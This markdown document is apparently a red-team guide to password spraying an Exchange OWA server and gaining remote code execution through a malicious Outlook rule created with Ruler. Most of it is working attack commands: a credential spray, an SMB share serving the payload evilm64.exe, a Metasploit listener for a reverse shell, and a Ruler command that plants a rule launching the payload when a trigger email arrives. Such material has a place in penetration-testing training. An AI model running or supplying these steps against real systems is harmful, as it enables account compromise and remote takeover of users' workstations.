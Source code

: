 # Password Spraying OWA to RCE


### Getting a Shell via Malicious Email Rule
If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage [Ruler](https://github.com/sensepost/ruler) to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

### A high level overwiew of how the spraying and remote code execution works:
1. assume you have obtained working credentials during the spray for the user `spotless@offense.local`.
2. with the help of Ruler, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:
`if emailSubject contains someTriggerWord start pathToSomeProgram`.
3. A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`.
4. User spotless logs on to his/her workstation and launches Outlook client to check for new email.
5. Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in pathToSomeProgram which is pointing to a malicious payload giving a reverse shell to the attacker.

## How to Exploit

### Password Spraying
```bash
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

### Getting a Shell via Malicious Email Rule
* Let's validate the compromised credentials are working by checking if there are any email rules created already:
```bash
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

* We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:
```bash
smbserver.py tools /root/tools/
```

* Next, we setup a metasploit listener to catch the incoming reverse shell:
```bash
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```

* Finally, we fire up the ruler and create the malicious email rule:
```bash
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

<img src="https://github.com/Mehdi0x90/Red-Team/assets/17106836/640ebd5a-f763-4916-a76d-260cf9fe2fd5" width="400" height="500">


* If you want to delete the malicious email rule, do this:
```bash
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```















































































